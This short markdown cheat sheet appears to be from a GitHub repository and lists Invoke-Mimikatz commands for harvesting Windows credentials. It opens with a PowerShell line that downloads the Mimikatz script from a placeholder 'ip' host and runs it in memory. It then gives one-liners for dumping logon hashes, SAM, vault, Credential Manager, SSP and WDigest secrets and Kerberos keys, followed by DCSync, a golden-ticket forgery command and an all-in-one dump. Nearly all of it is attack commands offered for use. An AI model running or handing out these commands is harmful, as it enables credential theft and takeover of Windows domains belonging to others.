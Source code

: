 # Get em' all!

Invoke: `iex(New-Object net.webclient).downloadstring('http://ip/Invoke-Mimikatz.ps1')`

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'` - Get passwords of scheduled tasks.
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'` - Dump logged-on Accounts hashes.
- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'` - Local Accounts Credentials
- `Invoke-Mimikatz -Command '"privilege::debug" sekurlsa::ekeys"'` - List Kerberos encryption keys
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::credman"'` - List Credentials Manager
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::ssp"'` - Lists SSP credentials
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::wdigest"'` - List WDigest credentials

### DCSync

- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:NETBIOS\USER"'` - Maybe domain controller need to be specified too with `/dc:<DC FQDN>`.

### Golden Ticket

- `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:HASH id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

### All in one

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "lsadump::sam" "sekurlsa::credman" "sekurlsa::ssp" "sekurlsa::wdigest" "sekurlsa::logonpasswords"'`

